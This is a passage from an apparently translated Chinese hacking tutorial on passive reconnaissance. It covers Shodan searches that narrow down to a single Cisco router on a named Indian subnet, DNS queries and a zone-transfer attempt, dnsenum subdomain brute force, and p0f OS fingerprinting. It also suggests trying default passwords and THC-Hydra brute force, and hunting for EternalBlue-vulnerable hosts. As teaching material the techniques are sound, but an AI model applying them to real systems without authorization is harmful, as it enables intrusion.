由于 Shodan 索引其获取的每个 Web 接口的 IP 地址，而 IP 地址分布在特定的地理位置，因此我们可以按地点搜索 Shodan。如果我们只想查找印度的 Cisco 设备，可以使用以下搜索词：`Cisco country:IN`

这样做之后，Shodan 将我们的搜索结果缩小到仅 71,147 台设备。虽然数量仍然庞大，但比 300 万台更容易处理。

为了更精确，我们可以按端口过滤。假设我们正在寻找印度使用 VOIP 的 Cisco 设备。我们知道 VOIP 使用 SIP 协议且端口为 5060，因此可以通过在搜索引擎中输入以下内容来缩小搜索范围：`Cisco country:IN port 5060`

64 | 页







该语法将我们的搜索结果缩小到仅 2435 台在印度且 5060 端口开放的 Cisco 路由器。

让我们进一步细化搜索。正如我之前指出的，Shodan 将横幅信息与 IP 地址一起索引。如果我们希望将搜索范围缩小到位于印度 125.63.65.0/24 子网中、5060 端口开放且是 Cisco 路由器的设备怎么办？我们可以在搜索框中输入以下内容进行搜索：`Cisco country:IN port:5060 net:125.63.65.0/24`

Shodan 找到了恰好一台符合这些条件的路由器。

再具体不过了！

现在，让我们打开这些结果。

65 | 页




在这里我们可以看到，有一个接口指向位于印度新德里的一台 Cisco 路由器，其指定 IP 地址的 5060 端口开放。如果路由器未受保护，我们可能只需点击此条目即可访问它，而不会遇到其他麻烦。如果需要身份验证，请首先尝试默认用户名和密码，只有在失败后才使用诸如 `THC-Hydra` 之类的工具进行暴力破解（有关 `THC-Hydra` 的教程，请访问 `www.hackers-arise.com/online-password-cracking`）。

Shodan 是我们可用于收集潜在目标信息的一系列工具之一。

Shodan 使我们能够搜索全球范围内存在漏洞的 Web 接口，并且只需使用少量关键词，就可以将搜索范围缩小到特定类型和位置的 Web 接口。

## 使用 DNS 进行信息收集

如你所知，域名系统（DNS）是互联网上用于将域名转换为 IP 地址及其反向转换的协议。它存储每个域名的信息，使我们能够输入域名（例如 `microsoft.com`）来访问他们的网站，而无需记住数千个 IP 地址。这个域名和 URL 数据库可用于在不接触目标计算机或网络的情况下收集有关目标的信息。它可以揭示大量我们可用于后续攻击的信息。通过查询 DNS 数据库，我们可以以普通 DNS 查询的外观收集信息，而不会引起安全设备或管理员对我们活动的警觉（有关 DNS 的更多信息，请参阅 `https://www.hackers-arise.com/single-post/2019/05/20/Network-Basics-for-Hackers-Domain-Name-Service-DNS-and-BIND-Theory-Vulnerabilities-and-Implementation`）。

### 查询目标的 DNS

正如你们大多数人知道的，可以直接使用 `nslookup` 和 `dig` 命令查询 DNS。在 Linux 环境下，我们可以使用其中任何一个；但在 Windows 下，我们仅限于使用 `nslookup`。我假设你们大多数人都使用过这些工具，所以我不会在这里详细介绍，而是为那些对此领域陌生的读者提供简短的回顾。

虽然我们可以从 Kali Linux 中同时使用 `nslookup` 和 `dig`，但 `dig` 命令更简单，并提供更多信息和功能，因此我将重点介绍它。假设我们要查找我们喜欢的软件公司 `Microsoft.com` 的域名服务器。我们可以使用以下命令：

66 | 页

```
root@kali:~# dig microsoft.com ns

; <<>> DiG 9.8.4-rpz2+rl005.12-P1 <<>> microsoft.com ns
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 60956
;; flags: qr rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 8

;; QUESTION SECTION:
;microsoft.com. IN NS

;; ANSWER SECTION:
microsoft.com. 90468 IN NS ns4.msft.net.
microsoft.com. 90468 IN NS ns1.msft.net.
microsoft.com. 90468 IN NS ns2.msft.net.
microsoft.com. 90468 IN NS ns3.msft.net.

;; ADDITIONAL SECTION:
ns1.msft.net. 93 IN A 200.84.0.53
ns1.msft.net. 215 IN AAAA 2620:0:30::53
ns2.msft.net. 49625 IN A 200.84.2.53
ns2.msft.net. 68984 IN AAAA 2620:0:32::53
ns3.msft.net. 269 IN A 193.221.113.53
ns3.msft.net. 12 IN AAAA 2620:0:34::53
ns4.msft.net. 49723 IN A 200.76.45.53
ns4.msft.net. 56978 IN AAAA 2620:0:37::53

;; Query time: 34 msec
;; SERVER: 75.75.75.75#53(75.75.75.75)
;; WHEN: Tue Feb 24 20:53:00 2015
```


```
root@kali:~# dig microsoft.com mx

; <<>> DiG 9.8.4-rpz2+rl005.12-P1 <<>> microsoft.com mx
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 504
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;microsoft.com.		IN	MX

;; ANSWER SECTION:
microsoft.com.		461	IN	MX	10 microsoft-com.mail.protection.outlook.com.

;; Query time: 18 msec
;; SERVER: 75.75.76.76#53(75.75.76.76)
;; WHEN: Tue Feb 24 20:56:08 2015
;; MSG SIZE rcvd: 85
```

## DNS 信息收集技术


`kali> dig microsoft.com ns`

其中 `ns` 表示我们正在查找域名服务器（nameserver）。

如上图截图所示，我们成功获取了 `microsoft.com` 的域名服务器记录。

如果我们想要获取 `microsoft.com` 的邮件服务器记录，可以使用以下命令查询 DNS 服务器：


`kali> dig microsoft.com mx`

其中 `mx` 表示我们正在查找邮件服务器记录。

```bash
root@kali-2019:~# dig @75.75.75.75 microsoft.com axfr
; <<>> DiG 9.11.5-P1-1-Debian <<>> @75.75.75.75 microsoft.com axfr
; (1 server found)
;; Global options: +cmd
; Transfer failed.
```

## 枚举子域名

`root@kali-2019:~# dnsenum`

```text
Smartmatch is experimental at /usr/bin/dnsenum line 698.
Smartmatch is experimental at /usr/bin/dnsenum line 698.
dnsenum VERSION:1.2.4
Usage: dnsenum [Options] <domain>
[Options]:
Note: the brute force -f switch is obligatory.
GENERAL OPTIONS:
  --dnsserver <server>
                  Use this DNS server for A, NS and MX queries.
    --enum        Shortcut option equivalent to --threads 5 -s 15 -w.
    -h, --help    Print this help message.
    --noreverse   Skip the reverse lookup operations.
    --nocolor     Disable ANSI Color output.
    --private     Show and save private ips at the end of the file domain_ips.txt.
    --subfile <file> Write all valid subdomains to this file.
    -t, --timeout <value>
                  The tcp and udp timeout values in seconds (default: 10s).
    --threads <value>
                  The number of threads that will perform different queries.
    -v, --verbose Be verbose: show all the progress and all the error messages.
GOOGLE SCRAPING OPTIONS:
    -p, --pages <value>
                  The number of google search pages to process when scraping names,
                  the default is 5 pages, the -s switch must be specified.
    -s, --scrap <value>
                  The maximum number of subdomains that will be scraped from Google (default 15).
BRUTE FORCE OPTIONS:
    -f, --file <file>
                  Read subdomains from this file to perform brute force.
```

如上图截图所示，我们成功获取了 `microsoft.com` 的邮件服务器记录。最后，我们可以尝试对 `microsoft.com` 执行区域传输（在 DNS 术语中，区域传输是对 DNS 记录的更新），输入以下命令即可：

`kali> dig @75.75.75.75 microsoft.com axfr`

其中 `@75.75.75.75` 是 DNS 服务器的 IP 地址，`axfr` 是执行区域传输的命令。

请注意，区域传输通常具有恶意性质，且仅能在配置不当的 DNS 服务器上实现。在我们的例子中，该 DNS 服务器不允许我们进行区域传输。

## 使用 dnsenum.pl 暴力破解子域名

在 Kali 中，我们有几个用于收集 DNS 信息的工具。`dnsenum` 是一个 Perl 脚本，也是自动化提取上述我们手动提取的所有 DNS 信息及其他更多信息的优秀工具。

打开终端，并在提示符下输入 `dnsenum`。

注意，`dnsenum` 的语法相对简单：

`dnsenum.pl [Options] <domain>`

在这种情况下，我们将使用 `dnsenum` 对 `kali.org` 的子域名进行字典攻击，使用脚本开发者提供的 DNS 文件（如果您愿意，也可以使用自己的文件）。为此，我们需要使用 `-f` 开关以及潜在子域名列表的绝对路径（`/usr/share/dnsenum/dns.txt`），然后是我们想要搜索子域名的域名。


```bash
root@kali-2019:~# dnsenum -f /usr/share/dnsenum/dns.txt kali.org
Smartmatch is experimental at /usr/bin/dnsenum line 698.
Smartmatch is experimental at /usr/bin/dnsenum line 698.
dnsenum VERSION:1.2.4

------ kali.org ------

Host's addresses:

kali.org.                  60    IN   A   192.124.249.10

Name Servers:

ns1.no-ip.com.             11842  IN   A   194.62.181.53
ns3.no-ip.com.              10611  IN   A   204.16.255.53
ns4.no-ip.com.              10973  IN   A   204.16.254.53
ns5.no-ip.com.              17082  IN   A   194.62.181.53
ns5.no-ip.com.              12491  IN   A   194.62.180.53

Mail (MX) Servers:

alt1.aspmx.l.google.com.     108  IN   A   209.85.144.27
alt3.aspmx.l.google.com.     107  IN   A   64.233.100.26
alt2.aspmx.l.google.com.     107  IN   A   74.125.141.26
aspmx.l.google.com.          205  IN   A   172.217.214.26
alt4.aspmx.l.google.com.     293  IN   A   74.125.193.26

archive.kali.org.       60      IN      CNAME   hera.kali.org.
hera.kali.org.         60      IN      A       192.99.45.148
backup.kali.org.       60      IN      CNAME   polyhymnia.kali.org.
polyhymnia.kali.org.   60      IN      A       54.39.103.103
bugs.kali.org.         60      IN      A       192.124.249.169
forums.kali.org.       60      IN      A       192.124.249.12
http.kali.org.         60      IN      CNAME   hebe.kali.org.
hebe.kali.org.         60      IN      A       192.99.200.113
mail.kali.org.         60      IN      CNAME   apollo.kali.org.
apollo.kali.org.       60      IN      A       23.239.31.92
old.kali.org.          60      IN      CNAME   tersiphore.kali.org.
tersiphore.kali.org.   60      IN      A       54.39.49.227
pan.kali.org.          60      IN      A       167.114.101.148
www.kali.org.          60      IN      A       192.124.249.10

kali.org class C netranges:

23.239.31.0/24
54.39.49.0/24
54.39.103.0/24
167.114.101.0/24
192.99.45.0/24
192.99.200.0/24
192.124.249.0/24
```

在这种情况下，让我们使用 `www.kali.org`。我们将这样编写命令：

`kali> dnsenum.pl -f /usr/share/dnsenum/dns.txt kali.org`

如下图所示，一旦按下回车，`dnsenum` 就开始枚举 `www.kali.org` 的域名服务器和邮件服务器。然后，它尝试使用我们提供的潜在子域名列表和 C 类网络地址范围（Class C netranges）来暴力破解子域名。最后，它尝试进行区域传输，但未成功。

```text
**Name Servers:**

ns1.hastydns.com. 11 IN A 66.135.47.136

**Mail (MX) Servers:**

**Trying Zone Transfers and getting Bind Versions:**

Trying Zone Transfer for hakin9.com on ns2.hastydns.com...
AXFR record query failed: connection failed

Trying Zone Transfer for hakin9.com on ns1.hastydns.com ...
AXFR record query failed: connection failed
```


## 查询目标的 DNS 缓存以确定其杀毒软件

既然我们已经开始了解如何利用 DNS 服务来获取信息，让我们看看 DNS 在提供目标信息方面的另一个更高级用途。

我收录这项技术并非因为其实际可行性，而是为了其灵巧性和创造性——这两个大师级黑客必不可少的特质。

作为一名黑客，了解目标正在运行什么杀毒软件往往至关重要。除非你创建或购买了零日漏洞利用工具，否则它很可能会被杀毒软件检测并隔离。结果，你几天的、几周的甚至几个月的努力将付之东流。

并非所有的杀毒软件都一样！有些很好，有些很差。有些能检测某些恶意软件，有些则检测其他的。因此，一种攻击可能对某一种杀毒软件有效，而对另一种无效。如果我们能预先知道目标使用的是哪种杀毒软件，就可以量身定制一种能够规避该软件的攻击。

当公司拥有自己的 DNS 服务器时，该服务器会缓存每位员工发出的每个 DNS 查询。如果我们能检查 DNS 缓存，就能看到所有被查询过的域名。这意味着，如果我们能检查 DNS 缓存，就可以确定哪些杀毒软件域名（如 Symantec、McAfee、Kaspersky 等）被查询过，哪些没有。目标公司正在使用列表中的一个或所有杀毒软件域名。我们不知道具体是哪个，但我们知道，列表中未列出的杀毒软件公司未被使用。

仅凭这些信息，就可以帮助我们确定哪种攻击有效。

由于这属于中级到高级的侦察技术，我只留下一个链接供你深入学习：[https://www.hackers-arise.com/single-post/2016/05/23/How-to-Use-Recon-to-Determine-the-Target-s-AV-Software-1]

## 摘要

DNS 系统可以成为关于目标的重要信息库，包括域名服务器、邮件服务器以及许多子域名。其中许多子域名可能并不明显，目标公司可能认为这些子域名无法被查看，因为并没有任何链接指向它们。在很多时候，这些子域名可能包含对黑客而言机密且极具价值的信息。

### p0F 或被动操作系统检测

在对目标进行侦察的过程中，我们需要最关键的要素之一，就是目标的操作系统。大家应该已经明白，针对 MacOS 的漏洞无法用于 Windows 系统，反之亦然。可能不明显的是，针对 Windows Vista 的漏洞在 Windows 7 系统上可能无法利用。在许多情况下，针对 Windows 7 SP1 的漏洞在 Windows 7 SP2 上也可能无法利用。

我想说明的要点是，了解目标的操作系统对我们取得成功至关重要。如果没有这些信息，我们很可能只是在浪费时间精力。

在本课中，我们将介绍一种名为 `p0F` 的工具。这个名字是“被动操作系统指纹识别”（passive operating system fingerprinting）的首字母缩写。`p0F` 依赖于对各操作系统 TCP/IP 协议栈如何构建和实现数据包的深入理解，从而确定发送方的操作系统。因此，它是完全被动的，我们不需要用数据包或其他任何方式触碰目标系统。该工具使我们能够在不向目标发送任何数据包或探针的情况下确定目标操作系统。

## TCP/IP 基础


确定目标操作系统的方式有很多种。例如，特定的端口和服务仅在 Windows 系统上开放（`1433`端口用于 SQL Server，`137`端口用于 NetBIOS），而有些端口仅在 Linux 系统上开放（`631`端口用于 IPP）。这种指纹识别方法至少可以将世界划分为两大阵营（Windows 与 Linux），但它是一种相当有限的方法。首先，一些 Windows 系统并没有开放那些端口（`1433`和`137`），而一些 Linux 系统也没有开放那个端口（`631`）。

其次，有时仅知道操作系统的“大致阵营”是不够的。我们需要对操作系统版本有更细致的理解，有时甚至要精确到服务包（SP）级别。

一些工具向系统发送大量探针，然后通过分析响应来确定操作系统。这些工具通常噪声很大且隐蔽性较差，但总体而言，如果它们的指纹库是最新的，它们的效果通常不错。如果我们希望在不接触系统且避免被检测的风险的情况下确定操作系统，该怎么办？

答案是肯定的“可以”！几年前，Michal Zalewski 开发了一款名为 `p0F` 的工具，即被动操作系统指纹识别。

`p0F` 和其他被动指纹识别工具依赖于一个事实：不同的操作系统拥有不同的 TCP/IP 协议栈，因此创建数据包的细微差别也有所不同。这意味着我们可以捕获任何在互联网上传输的数据包，如果我们知道查找的目标，就可以确定是哪个操作系统发送了它。

对于识别操作系统而言，TCP/IP 报头中四个关键字段至关重要：



- `TOS`
- `TTL`
- `DF`（标志）
- 窗口大小

在下图中，我在 IP 报头（`TOS`、`TTL`和`DF`）和 TCP 报头（窗口大小）中圈出了这些字段。

让我们逐一查看这些字段。

首先是 IP 报头中的服务类型或 **TOS**。该字段可以具有四个（4）不同的值：

- 最小化延迟
- 最大化吞吐量
- 最大化可靠性
- 最小化货币成本

其次是 **标志（Flags）** 字段。不要将此字段与 TCP 标志（S、A、F、U、P、R）混淆。TCP 协议栈将此字段设置为 D 或 M，即“不分片”或“还有分片”。这是 IP 协议向接收方发信号，表示是否还有更多数据包包片在途的方式。如果接收到设置了 M 标志的包，接收方可以暂时保留这些包，并将它们重新组装成完整的包。

第三是 **TTL** 或生存时间。该字段指示数据包在过期之前应该经过多少跳。Windows 系统通常将此值设置为 `32`，而 Linux 系统则设置为 `64`，尽管这会因情况而异。

最后，**让我们检查窗口** 或窗口大小。该字段定义了 TCP 协议栈用于缓冲数据包有多大缓冲空间。请记住，TCP 的一大优点在于它具有**“流量控制”**。如果一方发送数据包的速度过快，以至于另一方无法处理，发送方可以缓冲数据包。窗口大小定义了该缓冲区的大小。仅这一个字段所提供的关于发送方身份的信息，比两个报头中的任何其他字段都多。几乎所有操作系统都有不同的窗口大小。

既然我们理解了 `p0f` 的功能，让我们将其应用到一些数据包上。

# 文件 编辑 视图 搜索 终端 帮助

```
root@kali:~# p0f -h
--- p0f 3.07b by Michal Zalewski <lcamtuf@coredump.cx> ---
.,/p0f: invalid option -- 'h'
Usage: p0f [ ...options... ] [ 'filter rule' ]
Network interface options:

-i iface - listen on the specified network interface
-r file - read offline pcap data from a given file
-p - put the listening interface in promiscuous mode
-L - list all available interfaces
Operating mode and output settings:

-f file - read fingerprint database from 'file' (p0f.fp)
-o file - write information to the specified log file
-s name - answer to API queries at a named unix socket
-u user - switch to the specified unprivileged account and chroot
-d - fork into background (requires -o or -s)

Performance-related options:

-S limit - limit number of parallel API connections (20)
-t c,h - set connection / host cache age limits (30s,120m)
-m c,h - cap the number of active connections / hosts (1000,10000)

Optional filter expressions (man tcpdump) can be specified in the command line to prevent p0f from looking at incidental network traffic.

Problems? You can reach the author at <lcamtuf@coredump.cx>.
```


# p0F

`p0F` 已在 Kali 中预装，因此无需下载和安装。`p0F` 无法在 Kali 的图形用户界面中使用，但它是内置的，需通过命令行访问。由于其二进制文件（可执行文件）位于 **`/usr/bin`** 目录，而 **`/usr/bin`** 包含在我们的 `PATH` 变量中，因此我们可以从 Kali 中的任何位置通过命令行访问它。让我们通过输入命令查看其帮助文件（请注意，中间的那个字符是数字零 `0`，而不是字母 `o`）：`kali> p0f -h`

如前所述，**`p0f`** 拥有简短但完整的帮助文件。第一段涉及网络接口选项，第二段涉及运行模式，第三段涉及性能选项。

最简单的形式下，只需键入命令，然后加上 `-i`（接口）以及你希望 `p0f` 监听接口的名称——在此例中为 `eth0`——即可运行 **`p0f`**：

`kali> p0f -i eth0`

当我们启动 **`p0f`** 时，它会开始在指定接口上监听，然后解码数据包中出现的信息。

让我们尝试从我们的 Windows 7 系统（你可能需要先启动 Apache 网页服务器）通过 Firefox 浏览器导航到我们的 Kali 系统。



```
File Edit View Search Terminal Help
root@kali:~# p0f -i eth0
--- p0f 3.07b by Michal Zalewski <lcamtuf@coredump.cx> ---
[+] Closed 1 file descriptor.
[+] Loaded 320 signatures from 'p0f.fp'.
[+] Intercepting traffic on interface 'eth0'.
[+] Default packet filtering configured [+VLAN].
[+] Entered main event loop.


.
.
- [ 192.168.1.103/63155 --> 192.168.1.106/80 (syn) ] -
 | client    = 192.168.1.103/63155
 | os        = Windows 7 or 8
 | dist      = 0
 | params    = none
 | raw_sig   = 4:128+0:0:1460:8192,2:mss,nop,ws,nop,nop,sok:df,1d+:0
.
.
- [ 192.168.1.103/63155 --> 192.168.1.106/80 (mtu) ] -
 | client    = 192.168.1.103/63155
 | link      = Ethernet or modem
 | raw_mtu   = 1500
.
.
- [ 192.168.1.103/63155 --> 192.168.1.106/80 (syn+ack) ] -
```


```
--[ 192.168.1.103/63155 -> 192.168.1.106/80 (http request) ]-
    client  = 192.168.1.103/63155
    app     = Firefox 10.x or newer
    lang    = English
    params  = none
    raw_sig = 1:Host,User-Agent,Accept=[text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8],Accept-Language=[en-US,en;q=0.5],Accept-Encoding=[gzip,deflate],Connection=[keep-alive]:Accept-Charset.Keep-Alive:Mozilla/5.0 (Windows NT 6.1; WOW64); rv:36.0) Gecko/20100101 Firefox/36.0
    ----
```


如图所示，最初 `p0f` 启动，随后加载 320 个签名，在 `eth0` 接口上监听，然后进入主事件循环。当它在接口处检测到数据包时，它开始对其进行解码。首先，它告诉我们数据包来自哪个 IP 地址和端口，以及设置的 TCP 标志（SYN）。接下来，它告诉我们哪个操作系统符合该数据包的特征指纹（Windows 7 或 8）。在下一段信息中，它告诉我们链路类型（以太网或调制解调器）以及 MTU（1500）。

如果我们稍微向下滚动，我们会看到上面描述的信息，包括我们使用的浏览器（Firefox 10.x 或更高版本）、语言（英语）及其原始签名。

如果来自同一台系统，我们使用 Microsoft 的 Internet Explorer 9 向我们的 Kali 发送数据包，你可以看到 `p0f` 将浏览器指纹识别为“MSIE 8 或更高版本”。

```
-[ 192.168.1.103/50361 -> 192.168.1.106/80 (http request ) ] -
| client = 192.168.1.103/50361
| app = MSIE 8 or newer
| lang = none
| params = dishedest
| raw_sig = 1:Accept=[*/*],UA-CPU=[AMD64],Accept-Encoding=[gzip, deflate],User-Agent,Host,DNT=[1],Connection=[Keep-Alive]:Accept-Language,Accept-Charset,Keep-Alive:Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
|
```


```
.-[ 192.168.1.118/33120 -> 192.168.1.106/80 (syn) ]-
client = 192.168.1.118/33120
os = Linux 3.11 and newer
dist = 0
params = none
raw_sig = 4:64+0:0:1460:mss*20,7,mss,sok,ts,nop,ws:df,id+:0
----
.-[ 192.168.1.118/33120 -> 192.168.1.106/80 (mtu) ]-
client = 192.168.1.118/33120
link = Ethernet or modem
raw_mtu = 1500
----
```


```
.-[ 192.168.1.118/33120 -> 192.168.1.106/80 (uptime) ]-
server = 192.168.1.106/80
uptime = 6 days 16 hrs 16 min (modulo 198 days)
raw_freq = 248.06 Hz
----
```


让我们尝试从另一台 Kali 系统发送数据包。Kali 基于 Debian Linux 构建，并采用 Linux 内核。

根据你运行的 Kali 版本，内核可能是 3.12 或 3.14。如果 `p0f` 准确无误，它应该能够将该数据包指纹识别为来自 Linux 系统。

正如上面截图中所示，`p0f` **能够**确定操作系统是“Linux 3.11 或更高版本”。相当准确，不是吗？

`p0f` 还可以确定目标系统的运行时间。这对于确定自系统管理员修补目标系统（安全补丁通常要求重启系统）以来已经过了多长时间至关重要。如果我们向下扫描来自 Kali 解码的输出，可以看到 `p0f` 已确定系统已运行 6 天、16 小时和 16 分钟。这是一个非常有用的信息！

# 总结

在开始攻击之前，了解尽可能多的目标信息以增加成功几率是至关重要的。我们可以使用众多工具从那些先前已收集了此类信息的来源获取信息，而无需直接接触目标。这些被称为被动侦察技术，有时也被称为开源情报（OSINT）。Google、Netcraft、Shodan、DNS 都拥有有价值的信息，可以帮助定制你的攻击。像 `p0f` 这样的工具能够确定目标的操作系统、浏览器、用户代理和运行时间，如果我们能诱导目标访问我们的网站的话。所有这些信息在确定哪种方法最有可能在我们的攻击中成功时都是关键的。

## 练习：

1. 使用 `Shodan.io` 寻找可能易受 NSA 的 EternalBlue 漏洞利用攻击的 Windows Server 2008 系统。
2. 使用 `dnsenum` 查找你最喜欢的网站的名服务器、邮件服务器和子域名。
3. 尝试使用 `p0f` 确定访问你网站的用户的操作系统和其他信息。
4. 在 `netcraft.com` 上查找你最喜欢的网站使用的技术。
5. 尝试 `exploit-db.com` 上的一些 Google Hacks，看看是否能找到任何有价值的信息。


# 6 主动侦察

*只有傻瓜才会不打无准备之仗*

—— OTW 大师

在第 5 章关于被动侦察中，我们收集了大量关于潜在目标的信息。在侦察的下一个阶段，我们使用主动技术来获取关于特定目标的更多信息。

在主动侦察阶段，我们试图确定目标上哪些端口是开放的（开放端口表明系统正在运行的服务，例如用于 SMB 的 445 端口）以及防火墙的情况。在某些情况下，为了使漏洞利用在系统上起作用，某些端口必须保持开放。此外，通过扫描端口，我们不仅可以确定哪些端口是开放的、关闭的或经过过滤的（表示防火墙正在过滤），而且通常还能确定操作系统（例如，端口 135、139 和 1433 几乎总是表明是 Windows 操作系统）以及系统上的应用程序（例如，端口 1433、SQL Server；端口 3306、MySQL；端口 1521、Oracle 数据库）。

主动侦察使用我们专门制作的数据包发送给目标以引致响应。

根据目标的响应方式，我们的工具可以确定：

